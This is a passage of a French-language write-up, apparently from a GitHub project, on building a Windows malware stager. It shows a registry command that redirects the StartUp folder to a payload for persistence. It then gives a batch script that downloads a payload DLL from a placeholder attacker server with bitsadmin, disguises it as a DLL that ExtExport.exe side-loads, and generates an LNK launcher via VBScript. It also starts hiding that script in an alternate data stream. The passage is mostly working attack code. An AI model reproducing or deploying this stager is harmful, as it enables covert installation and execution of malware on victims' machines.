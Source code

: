 2. Création d'une clé de registre pointant sur le payload

`REG ADD "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders" /f /v StartUp /t REG_SZ /d <filepath>`

Flags:

/f - ajouter l'entrée sans demander de confirmation.
/v - nom de l'entrée.
/t - type de l'entrée.
/d - données de l'entrée.

**Stager v2 Code:**

Le nouveau stager `stager.cmd` devient:

```
@echo off

setlocal enabledelayedexpansion

set SERVER=http://<IP>/

set PATH_PUBLIC_DIR=C:\Users\Public\Libraries\raw\
rem Create the target directoty if it does not exist.
if not exist "%PATH_PUBLIC_DIR%" mkdir %PATH_PUBLIC_DIR%

set PAYLOAD_DLL=payload.dll
set TARGET_ADS=desktop.ini
set LAUNCHER_LNK=launcher.lnk
set LAUNCHER_CREATE_VBS=launcher_create.vbs

set URL_PAYLOAD_DLL=%SERVER%%PAYLOAD_DLL%

rem ExtExport.exe looks for any DLL with the following names.
set EXTEXPORT_DLLS[1]=mozcrt19.dll
set EXTEXPORT_DLLS[2]=mozsqlite3.dll
set EXTEXPORT_DLLS[3]=sqlite3.dll

rem Select one DLL filename at random.
set /a _rand=%RANDOM% %% 3 + 1
set EXTEXPORT_DLL=!EXTEXPORT_DLLS[%_rand%]!

set PATH_EXTEXPORT_DLL=%PATH_PUBLIC_DIR%%EXTEXPORT_DLL%
set PATH_LAUNCHER_LNK=%PATH_PUBLIC_DIR%%LAUNCHER_LNK%
set PATH_LAUNCHER_CREATE_VBS=%PATH_PUBLIC_DIR%%LAUNCHER_CREATE_VBS%

set PATH_LAUNCHER_CREATE_ADS=%PATH_PUBLIC_DIR%%TARGET_ADS%:%LAUNCHER_CREATE_VBS%

set PATH_EXTEXPORT_EXE=C:\Program Files\Internet Explorer\Extexport.exe
set EXTEXPORT_ARGS=C:\Users\Public\Libraries\raw foo bar

rem Download the renamed DLL payload from the server.
bitsadmin /transfer 2 /priority FOREGROUND %URL_PAYLOAD_DLL% %PATH_EXTEXPORT_DLL%

rem Use a temporary VBScript to create the LNK launcher.
rem The launcher will take the renamed DLL payload and load it using ExtExport.
echo Set oWS = WScript.CreateObject("WScript.Shell") > %PATH_LAUNCHER_CREATE_VBS%
echo sLinkFile = "%PATH_LAUNCHER_LNK%" >> %PATH_LAUNCHER_CREATE_VBS%
echo Set oLink = oWS.CreateShortcut(sLinkFile) >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.TargetPath = "%PATH_EXTEXPORT_EXE%" >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.Arguments = "%EXTEXPORT_ARGS%" >> %PATH_LAUNCHER_CREATE_VBS%
echo oLink.Save >> %PATH_LAUNCHER_CREATE_VBS%

rem Copy the launcher creation VBScript to the Alternate Data Stream (ADS) of desktop.ini and erase it.
```